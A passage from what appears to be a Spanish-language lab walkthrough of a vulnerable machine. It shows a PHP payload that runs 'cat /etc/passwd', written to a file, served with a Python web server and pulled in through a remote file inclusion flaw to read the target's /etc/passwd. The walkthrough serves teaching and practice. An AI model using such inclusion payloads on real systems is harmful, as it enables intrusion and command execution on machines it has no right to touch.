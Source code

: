 <img src="/assets/VH/Wpwn-DMV/poc.png">

En este punto creamos un arhivo de prueba `test.txt` e incluimos el código del PoC para que nos muestre el `/etc/passwd`. Lo servimos con un servidor web con Python

```bash
❯ cat test.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: test.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <pre>system('cat /etc/passwd')</pre>
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accediendo al path vulnerable localizado en el script y apuntando a nuestro servidor HTTP confirmamos que se acontece el RFI y nos muestra el archivo `/etc/passwd`

<img src="/assets/VH/Wpwn-DMV/passwd.png">
